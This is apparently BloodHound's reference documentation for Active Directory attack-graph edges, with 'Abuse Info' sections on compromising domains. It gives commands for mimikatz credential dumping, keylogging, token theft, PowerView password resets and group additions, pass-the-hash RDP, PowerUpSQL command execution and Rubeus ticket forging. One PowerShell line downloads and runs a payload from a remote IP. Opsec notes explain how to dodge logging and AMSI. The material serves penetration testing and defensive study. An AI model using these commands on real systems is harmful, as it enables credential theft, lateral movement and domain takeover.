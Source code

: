Edges
=====

Edges are part of the graph construct, and are represented as links that
connect one node to another. For example, this shows the user node for
David McGuire connected to two groups, "Domain Admins" and "Domain Users",
via the "MemberOf" edge, indicating this user belongs to both of those
groups:

.. image:: ../images/davidmcguire-edges.png
   :width: 700px
   :align: center
   :alt: David McGuire is a member of two groups

The direction of the edge always indicates the direct of attack, or the
direction of escalating privileges. For example, because the David McGuire
user belongs to the Domain Users and Domain Admins group, his user has the
same privileges both of those groups have.

AdminTo
^^^^^^^

This edge indicates that principal is a local administrator on the target
computer. By default, administrators have several ways to perform remote
code execution on Windows systems, including via RDP, WMI, WinRM, the
Service Control Manager, and remote DCOM execution.

Further, administrators have several options for impersonating other users
logged onto the system, including plaintext password extraction, token
impersonation, and injecting into processes running as another user.

Finally, administrators can often disable host-based security controls that
would otherwise prevent the aforementioned techniques.

Abuse Info
----------

There are several ways to pivot to a Windows system. If using Cobalt
Strike's beacon, check the help info for the commands "psexec", "psexec_psh",
"wmi", and "winrm". With Empire, consider the modules for Invoke-PsExec,
Invoke-DCOM, and Invoke-SMBExec.

With Metasploit, consider the modules "exploit/windows/smb/psexec",
"exploit/windows/winrm/winrm_script_exec", and
"exploit/windows/local/ps_wmi_exec".

Additionally, there are several manual methods for remotely executing code on
the machine, including via RDP, with the service control binary and
interaction with the remote machine's service control manager, and remotely
instantiating DCOM objects. For more information about these lateral movement
techniques, see the References section below.

**Gathering credentials**

The most well-known tool for gathering credentials from a Windows system is
mimikatz. mimikatz is built into several agents and toolsets, including
Cobalt Strike's beacon, Empire, and Meterpreter. While running in a high
integrity process with SeDebugPrivilege, execute one or more of mimikatz's
credential gathering techniques (e.g.: sekurlsa::wdigest,
sekurlsa::logonpasswords, etc.), then parse or investigate the output to
find clear-text credentials for other users logged onto the system.
            
You may also gather credentials when a user types them or copies them to
their clipboard! Several keylogging capabilities exist, several agents and
toolsets have them built-in. For instance, you may use meterpreter's
"keyscan_start" command to start keylogging a user, then "keyscan_dump" to
return the captured keystrokes. Or, you may use PowerSploit's
Invoke-ClipboardMonitor to periodically gather the contents of the user's
clipboard.

**Token Impersonation**

You may run into a situation where a user is logged onto the system, but
you can't gather that user's credential. This may be caused by a host-based
security product, lsass protection, etc. In those circumstances, you may
abuse Windows' token model in several ways. First, you may inject your agent
into that user's process, which will give you a process token as that user,
which you can then use to authenticate to other systems on the network. Or,
you may steal a process token from a remote process and start a thread in
your agent's process with that user's token. For more information about
token abuses, see the References tab.

**Disabling host-based security controls**

Several host-based controls may affect your ability to execute certain
techniques, such as credential theft, process injection, command line
execution, and writing files to disk. Administrators can often disable these
host-based controls in various ways, such as stopping or otherwise disabling
a service, unloading a driver, or making registry key changes. For more
information, see the References section below.

Opsec Considerations
--------------------

There are several forensic artifacts generated by the techniques described
above. For instance, lateral movement via PsExec will generate 4697 events on
the target system. If the target organization is collecting and analyzing those
events, they may very easily detect lateral movement via PsExec. 

Additionally, an EDR product may detect your attempt to inject into lsass and
alert a SOC analyst. There are many more opsec considerations to keep in mind
when abusing administrator privileges. For more information, see the References
section below.

References
----------

https://attack.mitre.org/wiki/Lateral_Movement

**Gathering Credentials**

* http://blog.gentilkiwi.com/mimikatz
* https://github.com/gentilkiwi/mimikatz
* https://adsecurity.org/?page_id=1821
* https://attack.mitre.org/wiki/Credential_Access

**Token Impersonation**

* https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-security-implications-of-windows-access-tokens-2008-04-14.pdf
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
* https://attack.mitre.org/wiki/Technique/T1134

**Disabling host-based security controls**

* https://blog.netspi.com/10-evil-user-tricks-for-bypassing-anti-virus/
* https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

**Opsec Considerations**

* https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/

MemberOf
^^^^^^^^

Groups in active directory grant their members any privileges the group itself
has. If a group has rights to another principal, users/computers in the group,
as well as other groups inside the group inherit those permissions.

Abuse Info
----------

No abuse is necessary. This edge simply indicates that a principal belongs to a
security group.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://adsecurity.org/?tag=ad-delegation
* https://www.itprotoday.com/management-mobility/view-or-remove-active-directory-delegated-permissions

HasSession
^^^^^^^^^^

When a user authenticates to a computer, they often leave credentials exposed on
the system, which can be retrieved through LSASS injection, token manipulation
or theft, or injecting into a user's process.

Any user that is an administrator to the system has the capability to retrieve
the credential material from memory if it still exists.

.. note:: A session does not guarantee credential material is present, only possible.

This video explains exactly how BloodHound's session data collection method works:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/q86VgM2Tafc?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
----------

When a user has a session on the computer, you may be able to obtain credentials for
the user via credential dumping or token impersonation. You must be able to move
laterally to the computer, have administrative access on the computer, and the user
must have a non-network logon session on the computer.

Once you have established a Cobalt Strike Beacon, Empire agent, or other implant on
the target, you can use mimikatz to dump credentials of the user that has a session
on the computer. While running in a high integrity process with SeDebugPrivilege,
execute one or more of mimikatz's credential gathering techniques (e.g.:
sekurlsa::wdigest, sekurlsa::logonpasswords, etc.), then parse or investigate the
output to find clear-text credentials for other users logged onto the system.

You may also gather credentials when a user types them or copies them to their
clipboard! Several keylogging capabilities exist, several agents and toolsets have
them built-in. For instance, you may use meterpreter's "keyscan_start" command to
start keylogging a user, then "keyscan_dump" to return the captured keystrokes. Or,
you may use PowerSploit's Invoke-ClipboardMonitor to periodically gather the contents
of the user's clipboard.

**Token Impersonation**

You may run into a situation where a user is logged onto the system, but you can't
gather that user's credential. This may be caused by a host-based security product,
lsass protection, etc. In those circumstances, you may abuse Windows' token model in
several ways. First, you may inject your agent into that user's process, which will
give you a process token as that user, which you can then use to authenticate to other
systems on the network. Or, you may steal a process token from a remote process and
start a thread in your agent's process with that user's token. For more information
about token abuses, see the References section below.

User sessions can be short lived and only represent the sessions that were present at
the time of collection. A user may have ended their session by the time you move to
the computer to target them. However, users tend to use the same machines, such as the
workstations or servers they are assigned to use for their job duties, so it can be
valuable to check multiple times if a user session has started.

Opsec Considerations
--------------------

An EDR product may detect your attempt to inject into lsass and alert a SOC analyst.
There are many more opsec considerations to keep in mind when stealing credentials or
tokens. For more information, see the References section.

References
----------

* http://blog.gentilkiwi.com/mimikatz
* https://github.com/gentilkiwi/mimikatz
* https://adsecurity.org/?page_id=1821
* https://attack.mitre.org/wiki/Credential_Access

**Token Impersonation**

* https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-security-implications-of-windows-access-tokens-2008-04-14.pdf
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
* https://attack.mitre.org/wiki/Technique/T1134

ForceChangePassword
^^^^^^^^^^^^^^^^^^^

This edge indicates that the principal can reset the password of the target user without
knowing the current password of that user.

To see an example of this edge being abused, see this clip from Derbycon 2017:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2291?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
----------

There are at least two ways to execute this attack. The first and most obvious is by
using the built-in net.exe binary in Windows (e.g.: net user dfm.a Password123! /domain).
See the opsec considerations section for why this may be a bad idea. The second, and
highly recommended method, is by using the Set-DomainUserPassword function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the ForceChangePassword privilege. Additionally, you have much safer execution
options than you do with spawning net.exe (see the opsec info below).

To abuse this privilege with PowerView's Set-DomainUserPassword, first import PowerView
into your agent session or into a PowerShell instance at the console. You may need to
authenticate to the Domain Controller as the user with the password reset privilege if
you are not running a process as that user.

To do this in conjunction with Set-DomainUserPassword, first create a PSCredential object
(these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('CONTOSO\\dfm.a', $SecPassword)

Then create a secure string object for the password you want to set on the target user:

::

  $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force</code>

Finally, use Set-DomainUserPassword, optionally specifying $Cred if you are not already
running within a process as the user with the password reset privilege

::

  Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred

Now that you know the target user's plain text password, you can either start a new agent
as that user, or use that user's credentials in conjunction with PowerView's ACL abuse
functions, or perhaps even RDP to a system the target user has access to. For more ideas
and information, see the references section below.

Opsec Considerations
--------------------

Executing this abuse with the net binary will necessarily require command line execution.
If your target organization has command line logging enabled, this is a detection
opportunity for their analysts. 

Regardless of what execution procedure you use, this action will generate a 4724 event on
the domain controller that handled the request. This event may be centrally collected and
analyzed by security analysts, especially for users that are obviously very high
privilege groups (i.e.: Domain Admin users). Also be mindful that PowerShell v5 introduced
several key security features such as script block logging and AMSI that provide security
analysts another detection opportunity. You may be able to completely evade those features
by downgrading to PowerShell v2. 

Finally, by changing a service account password, you may cause that service to stop
functioning properly. This can be bad not only from an opsec perspective, but also a client
management perspective. Be careful!

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.sixdub.net/?p=579
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4724

AddMembers
^^^^^^^^^^

This edge indicates the principal has the ability to add arbitrary principlas to the target
security group. Because of security group delegation, the members of a security group have
the same privileges as that group.

By adding yourself to a group and refreshing your token, you gain all the same privileges
that group has.

See this clip for an example of this edge being abused:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2123?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
----------

There are at least two ways to execute this attack. The first and most obvious is by using
the built-in net.exe binary in Windows (e.g.: net group "Domain Admins" dfm.a /add
/domain). See the opsec considerations tab for why this may be a bad idea. The second, and
highly recommended method, is by using the Add-DomainGroupMember function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the AddMember privilege. Additionally, you have much safer execution options than
you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, first import PowerView into
your agent session or into a PowerShell instance at the console. 

You may need to authenticate to the Domain Controller as the user with the AddMembers right
if you are not running a process as that user. To do this in conjunction with
Add-DomainGroupMember, first create a PSCredential object (these examples comes from the
PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)</code>

Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running
within a process owned by the user with the AddMembers privilege

::

  Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred

Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:

::

  Get-DomainGroupMember -Identity 'Domain Admins'

Opsec Considerations
--------------------

Executing this abuse with the net binary will require command line execution. If your target
organization has command line logging enabled, this is a detection opportunity for their
analysts.

Regardless of what execution procedure you use, this action will generate a 4728 event on the
domain controller that handled the request. This event may be centrally collected and analyzed
by security analysts, especially for groups that are obviously very high privilege groups
(i.e.: Domain Admins). Also be mindful that Powershell 5 introduced several key security
features such as script block logging and AMSI that provide security analysts another detection
opportunity. 

You may be able to completely evade those features by downgrading to PowerShell v2.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4728

CanRDP
^^^^^^

Remote Desktop access allows you to enter an interactive session with the target computer. If
authenticating as a low privilege user, a privilege escalation may allow you to gain high
privileges on the system.
    
.. note:: This edge does not guarantee privileged execution.

AbuseInfo
---------

Abuse of this privilege will depend heavily on the type of access you have. 
            
**PlainText Credentials with Interactive Access**

With plaintext credentials, the easiest way to exploit this privilege is using the built-in
Windows Remote Desktop Client (mstsc.exe). Open mstsc.exe and input the target computer name.
When prompted for credentials, input the credentials for the user with RDP rights to initiate
the remote desktop connection.

**Password Hash with Interactive Access**

With a password hash, exploitation of this privilege will require local administrator privileges
on a system, and the remote server must allow Restricted Admin Mode. 

First, inject the NTLM credential for the user you're abusing into memory using mimikatz:

::

  lsadump::pth /user:dfm /domain:testlab.local /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"

This will open a new RDP window. Input the target computer name to initiate the remote desktop
connection. If the target server does not support Restricted Admin Mode, the session will fail.

**Plaintext Credentials without Interactive Access**

This method will require some method of proxying traffic into the network, such as the socks command
in Cobalt Strike, or direct internet connection to the target network, as well as the xfreerdp
(suggested because of support of Network Level Authentication (NLA)) tool, which can be installed
from the freerdp-x11 package. If using socks, ensure that proxychains is configured properly. Initiate
the remote desktop connection with the following command:

::

  proxychains xfreerdp /u:dfm /d:testlab.local /v:<computer ip>

xfreerdp will prompt you for a password, and then initiate the remote desktop connection.

**Password Hash without Interactive Access**

This method will require some method of proxying traffic into the network, such as the socks command
in cobaltstrike, or direct internet connection to the target network, as well as the xfreerdp
(suggested because of support of Network Level Authentication (NLA)) tool, which can be installed
from the freerdp-x11 package. Additionally, the target computer must allow Restricted Admin Mode. If
using socks, ensure that proxychains is configured properly. Initiate the remote desktop connection
with the following command:

::

  proxychains xfreerdp /pth:<ntlm hash> /u:dfm /d:testlab.local /v:<computer ip>

This will initiate the remote desktop connection, and will fail if Restricted Admin Mode is not
enabled.

Opsec Considerations
--------------------

If the target computer is a workstation and a user is currently logged on, one of two things will
happen. If the user you are abusing is the same user as the one logged on, you will effectively take
over their session and kick the logged on user off, resulting in a message to the user. If the users
are different, you will be prompted to kick the currently logged on user off the system and log on.
If the target computer is a server, you will be able to initiate the connection without issue
provided the user you are abusing is not currently logged in.

Remote desktop will create Logon and Logoff events with the access type RemoteInteractive.

References
----------

* https://michael-eder.net/post/2018/native_rdp_pass_the_hash/
* https://www.kali.org/penetration-testing/passing-hash-remote-desktop/

CanPSRemote
^^^^^^^^^^^

PS Session access allows you to enter an interactive session with the target computer. If
authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges
on the system.
    
.. note:: This edge does not guarantee privileged execution.

AbuseInfo
---------

Abuse of this privilege will require you to have interactive access with a system on the network.
    
A remote session can be opened using the New-PSSession powershell command.

You may need to authenticate to the Domain Controller as the user with the PSRemote rights on the
target computer if you are not running as that user. To do this in conjunction with New-PSSession,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then use the New-PSSession command with the credential we just created:

::

  $session = New-PSSession -ComputerName <target computer name> -Credential $Cred

This will open a PowerShell session on the target computer

You can then run a command on the system using the Invoke-Command cmdlet and the session you just
created

::

  Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}

Cleanup of the session is done with the Disconnect-PSSession and Remove-PSSession commands.

::

  Disconnect-PSSession -Session $session
  Remove-PSSession -Session $session

An example of running through this Cobalt Strike for lateral movement is as follows:

::

  powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
  -ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
  Disconnect-PSSession -Session $session; Remove-PSSession -Session $session

Opsec Considerations
--------------------

When using the PowerShell functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in their
network, such as script block logging and AMSI.

Entering a PSSession will generate a logon event on the target computer.

References
----------

* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7
* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7

ExecuteDCOM
^^^^^^^^^^^

This can allow code execution under certain conditions by instantiating a COM object on a remote
machine and invoking its methods.

AbuseInfo
---------

The PowerShell script Invoke-DCOM implements lateral movement using a variety of different COM
objects (ProgIds: MMC20.Application, ShellWindows, ShellBrowserWindow, ShellBrowserWindow, and
ExcelDDE).  LethalHTA implements lateral movement using the HTA COM object (ProgId: htafile).  

One can manually instantiate and manipulate COM objects on a remote machine using the following
PowerShell code.  If specifying a COM object by its CLSID:

:: 

  $ComputerName = <target computer name>              # Remote computer
  $clsid = “{fbae34e8-bf95-4da8-bf98-6c6e580aa348}”   # GUID of the COM object
  $Type = [Type]::GetTypeFromCLSID($clsid, $ComputerName)
  $ComObject = [Activator]::CreateInstance($Type)

If specifying a COM object by its ProgID:

::

  $ComputerName = <target computer name>              # Remote computer
  $ProgId = “<NAME>”                                  # GUID of the COM object
  $Type = [Type]::GetTypeFromProgID($ProgId, $ComputerName)
  $ComObject = [Activator]::CreateInstance($Type)

Opsec Considerations
--------------------

The artifacts generated when using DCOM vary depending on the specific COM object used.

DCOM is built on top of the TCP/IP RPC protocol (TCP ports 135 + high ephemeral ports) and may
leverage several different RPC interface UUIDs(outlined here). In order to use DCOM, one must
be authenticated.  Consequently, logon events and authentication-specific logs(Kerberos, NTLM,
etc.) will be generated when using DCOM.  

Processes may be spawned as the user authenticating to the remote system, as a user already
logged into the system, or may take advantage of an already spawned process.  

Many DCOM servers spawn under the process “svchost.exe -k DcomLaunch” and typically have a
command line containing the string “ -Embedding” or are executing inside of the DLL hosting
process “DllHost.exe /Processid:{<AppId>}“ (where AppId is the AppId the COM object is
registered to use).  Certain COM services are implemented as service executables; consequently,
service-related event logs may be generated.

References
----------

* https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
* https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/
* https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
* https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-and-dotnettojscript/
* https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom
* https://www.cybereason.com/blog/dcom-lateral-movement-techniques
* https://bohops.com/2018/04/28/abusing-dcom-for-yet-another-lateral-movement-technique/
* https://attack.mitre.org/wiki/Technique/T1175

**Invoke-DCOM**

* https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1
            
**LethalHTA**

* https://codewhitesec.blogspot.com/2018/07/lethalhta.html
* https://github.com/codewhitesec/LethalHTA/

SQLAdmin
^^^^^^^^

The user is a SQL admin on the target computer

There is at least one MSSQL instance running on the computer where the user with the inbound
SQLAdmin edge is the account configured to run the SQL Server instance. The typical configuration
for MSSQL is to have the local Windows account or Active Directory domain account that is
configured to run the SQL Server service (the primary database engine for SQL Server) have
sysadmin privileges in the SQL Server application. As a result, the SQL Server service account
can be used to log into the SQL Server instance remotely, read all of the databases (including
those protected with transparent encryption), and run operating systems command through SQL
Server (as the service account) using a variety of techniques.

For Windows systems that have been joined to an Active Directory domain, the SQL Server instances
and the associated service account can be identified by executing a LDAP query for a list of
"MSSQLSvc" Service Principal Names (SPN) as a domain user. In short, when the Database Engine
service starts, it attempts to register the SPN, and the SPN is then used to help facilitate
Kerberos authentication.

Author: Scott Sutherland

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=2141?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

AbuseInfo
---------

Scott Sutherland from NetSPI has authored PowerUpSQL, a PowerShell Toolkit for Attacking SQL
Server. Major contributors include Antti Rantasaari, Eric Gruber, and Thomas Elling. Before
executing any of the below commands, download PowerUpSQL and laod it into your PowerShell
instance. Get PowerUpSQL here: https://github.com/NetSPI/PowerUpSQL

**Finding Data**

Get a list of databases, sizes, and encryption status:

::

  Get-SQLDatabaseThreaded –Verbose -Instance sqlserver\instance –Threads 10 -NoDefaults

Search columns and data for keywords:

::

  Get-SQLColumnSampleDataThreaded –Verbose -Instance sqlserver\instance –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize

**Executing Commands**

Below are examples of PowerUpSQL functions that can be used to execute operating system
commands on remote systems through SQL Server using different techniques.  The level of
access on the operating system will depend largely what privileges are provided to the
service account.  However, when domain accounts are configured to run SQL Server services,
it is very common to see them configured with local administrator privileges.

xp_cmdshell Execute Example:

::

  Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10 -Instance sqlserver\instance

Agent Job Execution Examples:

::


  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\windows\temp\test1.txt" -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\windows\temp\test2.txt' -Sleep 20 -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword

Python Subsystem Execution:

::

  Invoke-SQLOSPython -Verbose -Command "Whoami" -Instance sqlserver\instance

R subsystem Execution Example:

::

  Invoke-SQLOSR -Verbose -Command "Whoami" -Instance sqlserver\instance

OLE Execution Example:

::

  Invoke-SQLOSOle -Verbose -Command "Whoami" -Instance sqlserver\instance

CLR Execution Example:

::

  Invoke-SQLOSCLR -Verbose -Command "Whoami" -Instance sqlserver\instance

Custom Extended Procedure Execution Example:

1. Create a custom extended stored procedure:

::

  Create-SQLFileXpDll -Verbose -OutFile c:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test

2. Host the test.dll on a share readable by the SQL Server service account:

::

  Get-SQLQuery -Verbose -Query "sp_addextendedproc 'xp_test', '\\yourserver\yourshare\myxp.dll'" -Instance sqlserver\instance

3. Run extended stored procedure:

::

  Get-SQLQuery -Verbose -Query "xp_test" -Instance sqlserver\instance

4. Remove extended stored procedure:

::

  Get-SQLQuery -Verbose -Query "sp_dropextendedproc 'xp_test'" -Instance sqlserver\instance

Author: Scott Sutherland

Opsec Considerations
--------------------

Prior to executing operating system commands through SQL Server, review the audit configuration
and choose a command execution method that is not being monitored.
            
View audits:

::

  SELECT * FROM sys.dm_server_audit_status

View server specifications:

::

  SELECT audit_id, 
  a.name as audit_name, 
  s.name as server_specification_name, 
  d.audit_action_name, 
  s.is_state_enabled, 
  d.is_group, 
  d.audit_action_id, 
  s.create_date, 
  s.modify_date 
  FROM sys.server_audits AS a 
  JOIN sys.server_audit_specifications AS s 
  ON a.audit_guid = s.audit_guid 
  JOIN sys.server_audit_specification_details AS d 
  ON s.server_specification_id = d.server_specification_id

View database specifications:

::

  SELECT a.audit_id, 
  a.name as audit_name, 
  s.name as database_specification_name, 
  d.audit_action_name, 
  d.major_id,
  OBJECT_NAME(d.major_id) as object,
  s.is_state_enabled, 
  d.is_group, s.create_date, 
  s.modify_date, 
  d.audited_result 
  FROM sys.server_audits AS a 
  JOIN sys.database_audit_specifications AS s 
  ON a.audit_guid = s.audit_guid 
  JOIN sys.database_audit_specification_details AS d 
  ON s.database_specification_id = d.database_specification_id

If server audit specifications are configured on the SQL Server, event ID 15457 logs may be
created in the Windows Application log when SQL Server level configurations are changed to
facilitate OS command execution.

If database audit specifications are configured on the SQL Server, event ID 33205 logs may
be created in the Windows Application log when Agent and database level configuration changes
are made.

A summary of the what will show up in the logs, along with the TSQL queries for viewing and
configuring audit configurations can be found at https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql

Author: Scott Sutherland

References
----------

* https://github.com/NetSPI/PowerUpSQL/wiki
* https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation
* https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver
* https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017
* https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/

AllowedToDelegate
^^^^^^^^^^^^^^^^^

The constrained delegation primitive allows a principal to authenticate as any user to specific
services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the
target computer. That is, a node with this privilege can impersonate any domain principal
(including Domain Admins) to the specific service on the target host. One caveat- impersonated
users can not be in the "Protected Users" security group or otherwise have delegation privileges
revoked.
            
An issue exists in the constrained delegation where the service name (sname) of the resulting
ticket is not a part of the protected ticket information, meaning that an attacker can modify
the target service name to any service of their choice. For example, if msds-AllowedToDelegateTo
is “HTTP/host.domain.com”, tickets can be modified for LDAP/HOST/etc. service names, resulting
in complete server compromise, regardless of the specific service listed.

AbuseInfo
---------

Abusing this privilege can utilize Benjamin Delpy’s Kekeo project, proxying in traffic generated
from the Impacket library, or using the Rubeus project's s4u abuse.

In the following example, *victim* is the attacker-controlled account (i.e. the hash is known)
that is configured for constrained delegation. That is, *victim* has the "HTTP/PRIMARY.testlab.local"
service principal name (SPN) set in its msds-AllowedToDelegateTo property. The command first requests
a TGT for the *victim* user and executes the S4U2self/S4U2proxy process to impersonate the "admin"
user to the "HTTP/PRIMARY.testlab.local" SPN. The alternative sname "cifs" is substituted in to the
final service ticket and the ticket is submitted to the current logon session. This grants the attacker
the ability to access the file system of PRIMARY.testlab.local as the "admin" user.

::

  Rubeus.exe s4u /user:victim /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:admin /msdsspn:"HTTP/PRIMARY.testlab.local" /altservice:cifs /ptt

Opsec Considerations
--------------------

